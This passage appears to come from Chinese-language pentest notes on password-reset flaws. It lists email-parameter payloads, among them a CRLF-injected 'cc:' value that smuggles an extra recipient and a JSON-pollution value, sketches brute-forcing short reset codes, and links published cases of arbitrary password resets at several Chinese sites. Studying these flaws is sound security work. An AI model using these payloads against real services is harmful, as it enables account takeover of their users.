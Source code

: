     # 参数值中没有域
    email=test

    # 参数值中没有 TLD
    email=test@mail

    # 使用抄送
    email=test@mail.com%0a%0dcc:f8x@mail.com

    # json 污染
    {"email":test@mail.com","f8x@mail.com",“token":"xxxxxxxxxx"}
    ```

**用户凭证暴力破解**

像是四位或者六位纯数字的验证码,对验证码进行暴破,未作限制的情况下,很快就会得到结果了

- 思路
    ```
    POST /reset
    email=test@mail.com&code=123456

    POST /reset
    email=test@mail.com&code=$123456$
    ```

- 案例:
    - [当当网任意用户密码修改漏洞](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-011833)
    - [当当网任意用户密码修改漏洞2](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-046062)
    - [当当网任意用户密码修改漏洞第三次](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-046999)
    - [微信任意用户密码修改漏洞分析](http://www.91ri.org/3969.html)

**返回凭证**
- url 返回验证码及 token

    不多说,直接输入验证码即可修改密码
    - 案例:
        - [走秀网秀团任意密码修改缺陷](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-05630)

- 密码找回凭证
    - 案例:
        - [sohu邮箱任意用户密码重置](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-04728)

- 返回短信验证码
    - 案例:
        - [新浪某站任意用户密码修改(验证码与取回逻辑设计不当)](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-085124)

**邮箱弱token**
- 时间戳的 MD5
    - 案例:
        - [奇虎360任意用户密码修改漏洞](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-08333)
